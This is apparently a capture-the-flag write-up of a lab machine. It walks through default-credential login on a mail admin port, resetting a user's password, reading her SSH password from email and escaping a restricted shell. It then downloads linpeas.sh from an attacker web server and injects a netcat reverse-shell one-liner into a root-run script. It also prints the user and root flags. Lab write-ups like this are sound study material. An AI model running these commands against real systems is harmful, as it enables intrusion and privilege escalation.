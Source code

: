 We start by enumerating with nmap and finding some useful mail ports and a port 4555 that I was able to access with netcat:
```
nc 10.0.0.60 4555
```
I was able to login with the credentials ```root:root```, find some users and change there email passwords:
```
list users
setpassword mindy 123456

```
I then used telnet to access mindy's mailbox and read her emails which had her ssh password.
We then ssh'd into the machine as mindy; however we had the jailbreak the machine and so we retried with the '-t bash' parameter:
```
ssh mindy@10.0.0.60 -t bash
```
We were able to get the user flag: ```914d0a4ebc1777889b5b89a23f556fd75```

From that we set up a python http server and downloaded linpeas.sh onto the target machine:
```
python -m http.server --bind 10.0.0.1

wget http://10.0.0.1:8000/linpeas.sh
```
From there we found a binary that was being run as root in the /opt folder called tmp.py.
We modified the file  and added a reverse shell one liner to it; then we set up a netcat listenter:
```
os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8443 >/tmp/f')

nc -nlvp 8443
```
We wait to catch a reverse shell and attain root access
root flag: ```b4c9723a28899b1c45db281d99cc87c9```

System has been rooted action is no longer required.
